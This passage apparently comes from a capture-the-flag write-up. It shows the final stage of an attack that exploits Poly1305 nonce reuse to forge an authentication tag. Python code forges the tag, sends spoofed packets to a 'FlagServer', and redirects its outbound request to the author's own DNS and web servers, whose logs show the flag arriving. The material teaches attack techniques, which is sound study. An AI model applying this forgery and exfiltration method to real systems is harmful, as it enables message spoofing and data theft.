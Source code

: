 ```python
	# Create forged authentication tag by directly evaluating the Poly1305 polynomial on msg3 using (r,s)
	# by following the steps described here: https://en.wikipedia.org/wiki/Poly1305#Definition_of_Poly1305
	poly1305_3 = sum([coeffs_3[i] * r**(q-i) for i in range(q)]) % p
	a3 = (poly1305_3 + s) % 2**128
	tag3 = int(a3).to_bytes(16, byteorder='little')
	crc3 = calc_crc(pkt3)
	pkt3 = ct3 + tag3 + nonce3 
	# Attempt to send this packet to the FlagServer for decryption:
	message_to_flag_server = bytearray(
		dhcp_server_mac + # src mac
		flag_server_mac + # dst mac
		b'\x02' +
		pkt3 +
		crc3
	)
	send_message_to_flag_server(message_to_flag_server)
```

#### 5. Send an other request to the **FlagServer** - this time using the `0x03`-byte message type - to make the **FlagServer** send the flag to, what they think is, `example.com`, i.e. us.

```python
	# Tell the FlagServer to send the flag:
	print('Make FlagServer transmit the flag to (- what they think is -) http://example.com/{flag}')
	message_to_flag_server = bytearray(
		dhcp_server_mac + # src mac
		flag_server_mac + # dst mac
		b'\x03'
	)
	send_message_to_flag_server(message_to_flag_server)

conn.close()
```

#### 6. Receive the flag.

After sending the previous request to the **FlagServer**, we'll receive an incoming request to our **DNS server**:
```bash
└─$ python Server.py        
DNS Listening on 192.168.178.79:53 ...
Request from ('44.203.85.176', 57501) for example.com
```

Right after that, we'll notice an incoming request to our **web server**:
```bash
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
44.203.85.176 - - [15/Apr/2024 01:15:58] code 404, message File not found
44.203.85.176 - - [15/Apr/2024 01:15:58] "GET /PCTF%7Bd0nt_r3u5e_th3_n0nc3_d4839ed727736624%7D HTTP/1.1" 404 -
```
